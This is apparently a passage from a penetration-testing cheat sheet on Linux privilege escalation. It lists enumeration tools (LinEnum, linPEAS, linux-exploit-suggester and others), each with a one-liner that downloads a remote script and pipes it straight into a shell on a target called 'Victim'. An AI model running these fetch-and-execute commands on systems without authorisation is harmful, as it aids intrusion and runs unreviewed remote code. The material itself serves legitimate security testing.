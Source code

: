 

### Tools


#### LinEnum

* [https://github.com/rebootuser/LinEnum](https://github.com/rebootuser/LinEnum)

```
$ bash <(wget -qO- https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh) -t -e /dev/shm/ -r out.txt
```


#### linux-smart-enumeration

* [https://github.com/diego-treitos/linux-smart-enumeration/](https://github.com/diego-treitos/linux-smart-enumeration/)

```
$ sh <(wget https://raw.githubusercontent.com/diego-treitos/linux-smart-enumeration/master/lse.sh -qO-) -i | tee /dev/shm/out.txt
```


#### linPEAS

* [https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS)

```
$ sh <(wget -qO- https://raw.githubusercontent.com/carlospolop/privilege-escalation-awesome-scripts-suite/master/linPEAS/linpeas.sh) -q | tee /dev/shm/out.txt
```


#### linux-exploit-suggester

* [https://github.com/mzet-/linux-exploit-suggester](https://github.com/mzet-/linux-exploit-suggester)

Locally on target:

```
$ sh <(wget -qO- https://raw.githubusercontent.com/mzet-/linux-exploit-suggester/master/linux-exploit-suggester.sh) | tee /dev/shm/out.txt
```

On Attacker box providing `uname` output from Victim:

```
Victim$ uname -a
Attacket$ curl -sL https://github.com/mzet-/linux-exploit-suggester/raw/master/linux-exploit-suggester.sh > les.sh && chmod +x les.sh
Attacket$ ./les.sh --uname <UNAME_STRING>
```


#### SUID3NUM
